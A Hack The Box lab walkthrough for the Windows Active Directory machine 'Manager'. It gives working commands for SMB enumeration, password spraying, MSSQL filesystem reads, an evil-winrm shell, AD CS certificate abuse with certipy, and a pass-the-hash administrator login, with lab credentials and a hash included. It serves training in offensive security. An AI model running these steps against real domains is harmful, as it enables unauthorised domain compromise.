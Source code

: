 # Manager - HTB Walkthrough

[![Hack The Box](https://img.shields.io/badge/HackTheBox-Manager-orange?logo=hackthebox)](https://app.hackthebox.com/machines/642)
[![Difficulty: Easy](https://img.shields.io/badge/Difficulty-Medium-orange)](https://github.com/subhash00/HackTheBox/)
[![Platform: Windows](https://img.shields.io/badge/Platform-Windows-blue)](https://github.com/subhash00/HackTheBox/)
[![Topic: Active Directory](https://img.shields.io/badge/Topic-Active%20Directory-yellowgreen)](https://en.wikipedia.org/wiki/Active_Directory)

---

## Overview

Manager is a medium-difficulty Windows Active Directory lab hosted on HackTheBox, focused on enumeration, SQL Server exploitation, credential discovery from backups, and privilege escalation via Active Directory Certificate Services (AD CS). The lab highlights practical offensive techniques: port/service enumeration, password spraying, lateral movement, and AD CS ticket abuse for Domain Admin compromise.

---

## Table of Contents

- [Enumeration](#enumeration)
- [Initial Foothold](#initial-foothold)
- [Exploiting MSSQL](#exploiting-mssql)
- [Backup Extraction & Credential Hunt](#backup-extraction--credential-hunt)
- [WinRM Shell & User Flag](#winrm-shell--user-flag)
- [AD CS Abuse & Privilege Escalation](#ad-cs-abuse--privilege-escalation)
- [Root Flag](#root-flag)
- [Stepwise PoC](#stepwise-poc)
- [Tools Used](#tools-used)
- [Technologies Used](#technologies-used)

---

## Enumeration
```
ports=$(nmap -p- --min-rate=1000 -T4 10.129.219.214 | grep '^[0-9]' | cut -d '/' -f1 | tr '\n' ',' | sed s/,$//)
nmap -p$ports -sC -sV 10.129.219.214
echo "10.129.219.214 manager.htb dc01.manager.htb" | sudo tee -a /etc/hosts
smbclient -L 10.129.219.214 -N
impacket-lookupsid anonymous@manager.htb -no-pass
```
- Full port scan, hostname mapping.
- Enumerate SMB shares anonymously.
- Perform RID cycling to extract valid usernames.

---

## Initial Foothold

```
netexec smb 10.129.219.214 -u user.txt -p user.txt --no-bruteforce
```
- Spray through users against SMB login for valid credentials.

---

## Exploiting MSSQL

```
impacket-mssqlclient manager/operator:operator@manager.htb -windows-auth
xp_dirtree
```
- Log into SQL server using discovered creds.
- Abuse `xp_dirtree` for filesystem read.

---

## Backup Extraction & Credential Hunt

```


wget http://10.10.11.236/website-backup-27-07-23-old.zip
unzip website-backup-27-07-23-old.zip -d website-backup-27-07-23-old
cd website-backup-27-07-23-old
ls -la
nano .old-conf.xml
```
- Download and extract website backup.
- Uncover hidden `.xml` config containing plaintext credentials.

---

## WinRM Shell & User Flag
```
evil-winrm -i manager.htb -u raven -p 'R4v3nBe5tD3veloP3r!123'
whoami
type C:\Users\raven\Desktop\user.txt
```
- Gain interactive WinRM shell with found creds.
- Confirm user and retrieve user flag.

---

## AD CS Abuse & Privilege Escalation
```
certipy find -u raven -p 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.129.219.214 -stdout -vulnerable
certipy ca -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.129.219.214 -ca manager-dc01-ca -add-officer raven -debug
certipy ca -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.129.219.214 -ca manager-dc01-ca -enable-template subca	
certipy ca -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.129.219.214 -ca manager-dc01-ca -list-templates	
certipy req -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.129.219.214 -ca manager-dc01-ca -template SubCA -upn administrator@manager.htb	
certipy ca -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.129.219.214 -ca manager-dc01-ca -issue-request 20	
certipy req -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.129.219.214 -ca manager-dc01-ca -retrieve 20	
certipy auth -pfx administrator.pfx	
```
- Enumerated AD CS configuration and vulnerabilities.
- Added raven as certificate officer.
- Enabled subca template.
- Requested and retrieved administrator certificate.
  (Note: If received error "Got access denied trying to issue certificate" then just re-run the certipy command to add raven as officer)
- Authenticated as admin using certificate.

---

## Root Access & Flag
```
evil-winrm -i manager.htb -u administrator -H ae5064c2f62317332c88629e025924ef
type C:\Users\Administrator\Desktop\root.txt
```

- Used administrator hash to get privileged WinRM access.
- Retrieved root flag.

---

## Stepwise PoC

<details>
<summary>💻<strong>(click to expand)</strong> </summary>
<img width="1549" height="824" alt="23" src="https://github.com/user-attachments/assets/c2c2ef32-9a3f-40c8-a8e2-5dfecd577e48" />
<img width="1549" height="806" alt="22" src="https://github.com/user-attachments/assets/fb8a02f6-fc81-4ebe-b750-18aa3ddce914" />
<img width="1075" height="102" alt="21" src="https://github.com/user-attachments/assets/2f632f1c-32b9-4378-8056-30892532cfb0" />
<img width="1059" height="387" alt="20" src="https://github.com/user-attachments/assets/13ec77e3-1e2c-4624-94e9-2c403726e55e" />
<img width="1184" height="754" alt="19" src="https://github.com/user-attachments/assets/6ca8a2e9-2d6c-486b-9249-7a971ca8a55c" />
<img width="1692" height="660" alt="18" src="https://github.com/user-attachments/assets/c3152018-150c-4a52-9e85-b26066c8e1a1" />
<img width="1309" height="325" alt="17" src="https://github.com/user-attachments/assets/8c10252c-e466-4066-8be5-5049e4757543" />
<img width="1194" height="404" alt="16" src="https://github.com/user-attachments/assets/f0417121-1d33-4783-9838-2befa6e34959" />
<img width="1906" height="186" alt="15" src="https://github.com/user-attachments/assets/ee2aedac-41c5-43de-bece-4b03b8e2c534" />
<img width="592" height="772" alt="14" src="https://github.com/user-attachments/assets/4a953f84-deb4-4fcf-a7af-1be0b9aa67c0" />
<img width="798" height="670" alt="13" src="https://github.com/user-attachments/assets/9bbb9c72-c884-484e-8114-b7dd0e4b9e4b" />
<img width="974" height="392" alt="12" src="https://github.com/user-attachments/assets/c284ee4c-cc45-4653-b316-bdb991008202" />
<img width="968" height="516" alt="11" src="https://github.com/user-attachments/assets/6aa29bcc-f4c1-4bbe-90b1-f7707bc90b36" />
<img width="1219" height="614" alt="10" src="https://github.com/user-attachments/assets/7ff65330-1b20-410d-ab39-a5ad88e3938f" />
<img width="1635" height="411" alt="9" src="https://github.com/user-attachments/assets/75878153-0382-4ef0-bd9c-0a2b27fc48ef" />
<img width="1229" height="804" alt="8" src="https://github.com/user-attachments/assets/06002e6d-91ee-436f-a257-a30f785f877c" />
<img width="1074" height="744" alt="7" src="https://github.com/user-attachments/assets/2cc3b15d-bbbb-40b6-90f6-ea44a7b2f948" />
<img width="1656" height="443" alt="6" src="https://github.com/user-attachments/assets/60fb543a-bcf8-4844-ace5-6c3ef564c5f0" />
<img width="1538" height="487" alt="5" src="https://github.com/user-attachments/assets/9c84702f-2e75-4c92-9d43-b62066ca93a8" />
<img width="1873" height="538" alt="4" src="https://github.com/user-attachments/assets/3c60fdf0-52c5-4ddd-a27f-9e60eda818ef" />
<img width="1655" height="465" alt="3" src="https://github.com/user-attachments/assets/187e4f62-9488-4fa9-a5d8-0918c57ffd48" />
<img width="1521" height="626" alt="2" src="https://github.com/user-attachments/assets/20861512-c86f-4d96-9dcc-1655e3c89b75" />
<img width="1631" height="373" alt="1" src="https://github.com/user-attachments/assets/f4c5080b-58eb-4dd2-8eec-135a98d54744" />

</details>

---

## Tools Used

| Tool               | Description                                       |
|--------------------|-------------------------------------------------|
| nmap               | Network scanner for port and service discovery.|
| smbclient          | Enumeration of SMB shares.                       |
| impacket           | Toolkit for protocol interactions and enumeration.|
| netexec            | Password spraying and authentication automation.|
| evil-winrm         | Remote Windows shell via WinRM protocol.        |
| wget & unzip       | Download and extract files from web server.     |
| certipy            | AD CS enumeration and exploitation tool.        |

---

## Technologies Used

| Technology         | Description                                      |
|--------------------|------------------------------------------------|
| Windows Server     | Target OS hosting Active Directory services.   |
| Active Directory   | Centralized authentication and user/group mgmt.|
| MSSQL              | Database management system used in lab.        |
| SMB                | File sharing and enumeration channel.           |
| AD CS              | Certificate Services, abused here for escalation|
| WinRM              | Windows Remote Management for shell access.     |

---

